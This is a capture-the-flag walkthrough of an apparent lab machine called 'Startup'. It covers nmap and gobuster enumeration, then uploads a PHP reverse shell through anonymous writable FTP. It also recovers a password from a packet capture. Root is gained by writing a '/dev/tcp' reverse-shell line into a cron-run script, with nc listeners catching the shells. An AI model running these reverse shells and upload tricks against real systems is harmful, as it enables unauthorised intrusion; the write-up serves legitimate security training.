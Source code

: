 Target: 10.10.88.107

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.88.107

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 00:37 PDT
Nmap scan report for 10.10.88.107
Host is up (0.28s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.1.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

gobuster
```
$ gobuster dir -u http://10.10.88.107 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

/files                (Status: 301) [Size: 312] [--> http://10.10.90.133/files/]
```

checking index
![index](startup1.png)

checking /files
![/files](startup2.png)

### Findings:Looking for attack vectors

FTP can be accessed through Anonymous FTP login and in /files ftp files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.php5
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
<snip>
```

using the Anonymous FTP login upload trustme.php5 
```
$ ftp 10.10.88.107

ftp> cd ftp
250 Directory successfully changed.

ftp> send trustme.php5
local: trustme.php5 remote: trustme.php5
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (44.7575 MB/s)
```

opening a nc listener on port 8888
```
$ nc -lnvp 8888
```

accessing uploaded file in  /files/ftp
![](startup3.png)


```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
$ cat recipe.txt

Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love
```


## Lateral Movement:

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@startup:/$ ls -la

<snip>
drwxr-xr-x   2 www-data www-data  4096 Nov 12 04:53 incidents
<snip>

www-data@startup:/$ cd incidents

www-data@startup:/incidents$ ls -l

total 32
-rwxr-xr-x  1 www-data www-data 31224 Nov 12 04:53 suspicious.pcapng
```

getting the file, fire up a http server
```
www-data@startup:/incidents$ python3 -m http.server 8000
```

in kali
```
$ wget http://10.10.88.107:8000/suspicious.pcapng
```

analyzing the pcapng file

username: lennie

password: c4ntg3t3n0ughsp1c3

trying the the credentials
```
www-data@startup:/incidents$ su - lennie
```

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

```
lennie@startup:~$ id

uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
```

```
lennie@startup:~$ cat user.txt

<redacted>
```


## Priv Escalation:


scanning for crontab
```
lennie@startup:~# pspy64

```

looking for suspicious file/s
```
lennie@startup:~$ ls -la

total 20
drwx------ 4 lennie lennie 4096 Nov 12 04:53 .
drwxr-xr-x 3 root   root   4096 Nov 12 04:53 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt

lennie@startup:~$ cd scripts

lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 .
drwx------ 4 lennie lennie 4096 Nov 12 04:53 ..
-rwxr-xr-x 1 root   root     77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root   root      1 Apr 20 16:09 startup_list.txt

lennie@startup:~/scripts$ cat planner.sh

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

following /etc/print.sh
```
lennie@startup:~/scripts$ cat /etc/print.sh

#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -la /etc/ | grep 'print.sh'

-rwx------  1 lennie lennie    25 Nov 12 04:53 print.sh
```

writing to print.sh
```
echo -e '#!/bin/bash \nbash -i >& /dev/tcp/10.9.1.128/4242 0>&1' > /etc/print.sh
```

openning another nc listener on port 4242
```
nc -lnvp 4242
```

```
root@startup:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@startup:~# cat root.txt

<redacted>
```
